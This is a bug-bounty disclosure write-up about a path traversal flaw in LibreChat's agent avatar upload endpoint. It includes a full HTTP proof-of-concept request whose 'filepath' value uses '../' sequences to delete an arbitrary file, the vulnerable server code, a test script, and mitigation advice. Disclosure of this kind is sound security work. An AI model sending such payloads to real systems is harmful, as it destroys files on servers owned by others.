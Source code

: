 ```yaml
---
layout: post
title: [[Duplicate]] Path Traversal that leads to remove other files with node permission in danny-avila/librechat
description: BugBounty Write-up
tags: huntr bugbounty path-traversal      
category: bugbounty 
---   
```

      
 I reported path traversal vulnerability in danny-avila/librechat to the huntr bugbounty platform. 
  
# 📜 Description     
    
A path traversal attack (also known as directory traversal) is a security vulnerability that allows attackers to manipulate file or directory paths in order to access unintended files or directories outside the intended folder structure. When a web application provides insufficient validation or sanitization of user inputs, attackers can exploit this weakness by crafting requests that traverse directories to access sensitive system files or perform unauthorized actions like deleting files.  
         
# 🕵️ Proof of Concept    

I created the file in /app/test/hacked for testing if the file removes or not. The file had the permission of node.     
     
```http
POST /api/agents/avatar/asdf HTTP/1.1
Host: localhost:3080
Content-Length: 10352
sec-ch-ua-platform: "Windows"
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY3MGZhNWE1YTcyY2QwNjZmMzQxYjcwZCIsInVzZXJuYW1lIjoiYWFhYWEiLCJwcm92aWRlciI6ImxvY2FsIiwiZW1haWwiOiJhYWFhYUBuYXZlci5jb20iLCJpYXQiOjE3MjkxMzgzNzcsImV4cCI6MTcyOTEzOTI3N30.Drs4845G6BvwlTsbPmIU97COOEpUYnb1QPNDxczl77c
Accept-Language: ko-KR,ko;q=0.9
sec-ch-ua: "Chromium";v="129", "Not=A?Brand";v="8"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryqD8OKhALyMzAPlIU
Origin: http://localhost:3080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:3080/c/new
Accept-Encoding: gzip, deflate, br
Cookie: refreshToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjY3MGZhNWE1YTcyY2QwNjZmMzQxYjcwZCIsImlhdCI6MTcyOTEzODM3NywiZXhwIjoxNzI5Njk4NjI0fQ.QnMNZfYNdC-kKdfjxeOWihbiF053uWNiPPsnWJU75m0
Connection: keep-alive

------WebKitFormBoundaryqD8OKhALyMzAPlIU
Content-Disposition: form-data; name="file"; filename="avatar.png"
Content-Type: image/png

PNG Binary
------WebKitFormBoundaryqD8OKhALyMzAPlIU
Content-Disposition: form-data; name="avatar"

{
    "source":"local",
    "filepath":"/uploads/670fa5a5a72cd066f341b70d/../../../../../../../../app/test/hacked"
}
------WebKitFormBoundaryqD8OKhALyMzAPlIU--
```     
     
This problem occurs in /api/server/services/Files/Local/crud.js. It's because there is no verification logic for the path.    
    
```javascript
if (file.filepath.startsWith(`/uploads/${req.user.id}`)) {
    const basePath = file.filepath.split('/uploads/')[1];
    const filepath = path.join(uploads, basePath);
    await fs.promises.unlink(filepath);
    return;
}
```    
          
## Test Code    
     
```javascript
const path = require('path');

const basePath = "/uploads/670fa5a5a72cd066f341b70d/../../../../../../../../app/test/hacked".split("/uploads/")[1];
console.log(basePath);
console.log(path.join("/uploads/", basePath)); // OUTPUT: /app/test/hacked
```

# 🔐 Mitigations    
     
you can use the regex function to extract the last element of path or check the path if the dot includes in path.          
     
# 📚 References      
- ![OWASP - Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal) 
- ![PortSwigger - Path Traversal](https://portswigger.net/web-security/file-path-traversal)     
      
# Impact
An attacker could perform actions not intended by application like delete arbitrary files on file system including application source code or configuration and critical system files.         